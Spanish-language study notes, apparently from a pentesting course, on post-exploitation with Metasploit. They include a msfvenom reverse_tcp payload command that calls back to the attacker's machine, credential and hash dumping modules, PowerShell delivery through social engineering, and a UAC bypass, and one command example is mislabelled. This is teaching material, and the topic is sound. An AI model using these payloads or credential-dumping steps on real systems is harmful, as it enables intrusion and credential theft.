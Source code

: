 #IntroducciónCiberseguridad 
# 1. Post-Explotación
Consiste en determinar el valor de los activos que han sido comprometidos en las fases anteriores del proceso. Este puede determinarse por lo sensible que es la información que almacena o por la capacidad que puede proporcionar a un atacante para comprometer más recursos dentro de la organización.

**Debe garantizarse que los procesos de negocio del cliente no se ven expuestos a un nivel mayor de riesgo debido a la realización del hacking.**

![[Pasted image 20241009005652.png]]

# 2. Linux: Meterpreter para post-explotación
Dado que mediante la vulnerabilidad unrealRc no podemos setear un payload via meterpreter podemos generarlo manualmente con la herramienta **msfvenom** con el siguiente comando:

```bash
msfvenom -p python/meterpreter/reverse_tcp lhost=<ip de nuestra maquina atacante> lport=4444
```

![[Pasted image 20241009011935.png]]

Ya que seteamos nuestro payload en el exploit anteriormente descargado necesitamos poner un listener mediante metasploit y lanzar nuestro exploit para recibir la conexion reversa.
Ya que recibimos la sesión podemos ver que mediante meterpreter podemos realizar una serie de acciones como checar si estamos en una maquina virtual mediante ` run post/linux/gather/checkvm `, realizar un hash dump si tenemos permisos de root mediante ` run post/linux/gather/checkvm ` y todas las demas opciones disponibles desde la ruta **post/linux/gather/checkvm**.

# 3. Windows: Meterpreter para post-explotación
Mediante el exploit llamado web_delivery en msfvenom podemos obtener un powershell mediante un poco de ingenieria social debido a que nos da un payload encodeado y si nuestra victima lo ejecuta nos dara nuestra sesion meterpreter.
Mediante la sesion de meterpreter podemos usar **getsystem** para intentar elevar privilegios de manera automática, si no funciona puedes utilizar varios exploits de elevación de privilegios, en esta sección se utilizaron los siguientes:
- checkvm: Nos permite saber el enviroment en el que nos encontramos, es decir, si nuestro sistema esta corriendo de manera nativa o dentro de una maquina virtual.
- credential_collector: nos permite recopilar credenciales dentro del sistema, pero solo sirve si tenemos una sesión como administrador.
- hashdump: Sirve para volcar los hashes de el target victima.
- local_exploit_suggester: Este exploit nos respondera con una serie de exploits recomendados para utilizar en contra de nuestra maquina victima.

# 4. Elevación de privilegios: UAC Bypass
***Qué es el User Account Control?*** Esta es la pestaña que nos aparece cuando corremos algún programa en windows y nos pregunta si queremos ejecutar una aplicación o proceso como administrador. En teoría podemos bypassearlo en ciertas circunstancias.
En este caso bypassearemos este UAC mediante una técnica la cual modifica los permisos de un binario en una ruta especificada, lo que nos permite cambiar el binario de esta ruta a por ejemplo una powershell, lo que nos spawneara una sesión con privilegios de administrador, esto lo podemos automatizar mediante el exploit uac_bypass_dotnet, el cual solo necesitaremos configurar y al ejecutarlo nos dará una sesión como administrador.

